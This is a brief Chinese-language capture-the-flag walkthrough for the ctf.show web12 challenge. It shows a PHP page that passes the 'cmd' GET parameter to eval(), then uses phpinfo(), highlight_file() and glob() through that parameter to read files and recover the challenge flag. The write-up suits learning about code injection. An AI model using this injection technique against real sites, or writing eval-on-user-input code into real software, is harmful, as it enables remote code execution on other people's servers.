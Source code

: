 查看源码，得到提示有cmd参数

```html
 <h2>ctf.show_web12</h2>
    <h4>where is the flag?</h4>
    <!-- hit:?cmd= -->
```

尝试?cmd=phpinfo();  ，存在回显。

使用`highlight_file("index.php")`查看index.php的源码：

```
 <?php
        $cmd=$_GET['cmd'];
        eval($cmd);
?>
```

使用`glob()`函数查看文件目录。

```
Array ( [0] => 903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php [1] => index.php )
```

查看903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php源码，得到flag：

```
ctfshow{c3faf7dc-7368-4fd4-b2f9-b800d99da5d5}
```

